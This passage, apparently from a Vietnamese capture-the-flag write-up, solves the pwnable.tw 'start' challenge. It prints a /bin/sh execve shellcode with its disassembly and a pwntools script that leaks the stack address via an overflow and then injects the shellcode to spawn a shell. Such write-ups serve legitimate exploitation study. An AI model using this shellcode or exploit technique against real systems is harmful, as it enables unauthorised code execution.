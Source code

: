Vậy thì không có lỗ hổng thông thường nào như gets(), ... được xuất hiện ở đây, điều đó có nghĩa là chúng ta chỉ việc đưa shellcode vào stack và thực hiện shell thôi!
Để thực hiện được việc gọi shellcode quyền năng là "/bin/sh" thì chúng ta search gg có shellcode sau : 
```
   0:   31 c9                   xor    ecx, ecx
   2:   f7 e1                   mul    ecx
   4:   51                      push   ecx
   5:   68 2f 2f 73 68          push   0x68732f2f
   a:   68 2f 62 69 6e          push   0x6e69622f
   f:   89 e3                   mov    ebx, esp
  11:   b0 0b                   mov    al, 0xb
  13:   cd 80                   int    0x80

shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
```
Sau đó yêu cầu tiếp theo là chúng ta phải tìm được esp_addr thì mới có thể add shellcode vào và thực thi được, để tìm được thì chúng ta chú ý câu lệnh *" 0x08048087 <+39>:	mov    ecx,esp"* câu lệnh này có nghĩa là esp sẽ được đưa vào ecx nên từ đấy chúng ta có thể leak được esp sau đó tính toán stack trả về và đưa shellcode vào : 

```
from pwn import *

BIN = "./start"
DEBUG = 1

shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
addr = 0x08048087 

io = process(BIN)
context.log_level = 'debug'
# io = remote("chall.pwnable.tw", 10000)


#_breakpoint = """
#		0x08048099
#	"""
#gdb.attach(io,_breakpoint)
io.recvuntil("CTF:")
payload = b'A' * 0x14 + p32(addr)
io.send(payload)
esp_addr = u32(io.recv(4))
 
print("[+]Esp address = ", hex(esp_addr))
 
payload = b'A' * 0x14 + p32(esp_addr + 0x14) + shellcode
io.sendline(payload)
io.interactive()
```



### dubblesort 

